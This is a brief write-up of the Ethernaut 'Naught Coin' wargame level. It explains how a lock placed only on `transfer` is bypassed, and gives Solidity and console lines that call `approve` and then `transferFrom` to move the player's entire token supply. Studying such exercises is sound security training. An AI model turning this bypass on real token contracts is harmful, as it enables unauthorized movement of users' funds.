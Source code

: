 ![Ethernaut - Naught Coin!](https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg)

## Ethernaut - 15 - Naught Coin

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that ```transfer``` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.

### Solution
[Contracts](./15-NaughtCoin/)

		this.approve(address(this), INITIAL_SUPPLY);

		this.transferFrom(player, address(this), INITIAL_SUPPLY);


        contract.approve(player, INITIAL_SUPPLY);
        contract.transferFrom(player, contract, INITIAL_SUPPLY);